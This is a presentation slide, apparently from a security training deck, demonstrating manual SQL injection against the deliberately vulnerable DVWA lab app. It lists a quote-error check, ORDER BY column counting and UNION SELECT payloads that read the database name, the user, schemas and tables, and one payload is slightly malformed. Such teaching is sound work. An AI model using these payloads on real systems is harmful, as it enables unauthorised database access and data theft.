

# Manual SQL Injection
Target of Choice: DVWA SQL Injection
Check Character: (‘), should return error
Ex: 2’ AND ‘1’ =1
Ex: 2’ ORDER BY <int> #
Ex: 2’ UNION SELECT 1,2 #’
Ex: 2’ UNION SELECT database(),user()#’
Ex: 2’ UNION SELECT schema_name(),2 FROM information_schema.schemata#’
Ex: 2’ UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=’dvwa’#’